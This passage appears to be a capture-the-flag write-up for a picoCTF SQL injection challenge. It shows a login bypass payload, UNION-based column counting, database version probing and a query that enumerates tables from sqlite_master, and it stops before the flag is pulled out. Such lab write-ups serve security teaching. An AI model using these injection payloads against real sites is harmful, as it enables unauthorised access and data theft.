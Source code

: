 > Can you find the flag on this website.Try to find the flag
> 
> 
> [here](http://saturn.picoctf.net:65335/).
> 

### Understanding

- The Title itself is saying that SQL, so let’s try sql on the login page.
- First, enter random credentials along with let’s enter our dangerous SQLi prone chracter `‘`
- It resulted the query that is being implemented on the backend.

```json
admin':admin'
```

```json
username: admin'
password: admin'
SQL query: SELECT id FROM users WHERE password = 'admin'' AND username = 'admin''
```

- Now, let’s use simple sqli to login.

```json
1' or 1=1--
```

 

- Yay!, we logged in, but the task starts from here.
- There is a table and a search field that is returning what we ask for.
- So, let’s try finding how many columns are there using Union Based Injections.

```sql
123' UNION SELECT null, null, null;--
```

- I have found out there are 3 columns.
- Now, let’s find what version is the database

```sql
123' UNION SELECT null, sqlite_version(), null;--
```

- Now, we shall find what tables are there in the DB, this below query is what i Used

```sql
123' UNION SELECT name, sql, null from sqlite_master;--
```

| City | Address | Phone |
| --- | --- | --- |
| hints | CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT) |  |
| more_table | CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, **flag** TEXT) |  |
| offices | CREATE TABLE offices (id INTEGER NOT NULL PRIMARY KEY, city TEXT, address TEXT, phone TEXT) |  |
| sqlite_autoindex_users_1 |  |  |
| users | CREATE TABLE users (name TEXT NOT NULL PRIMARY KEY, password TEXT, id INTEGER) |  |
- In the table, we can see flag as a column, let’s pull that out using our Query.
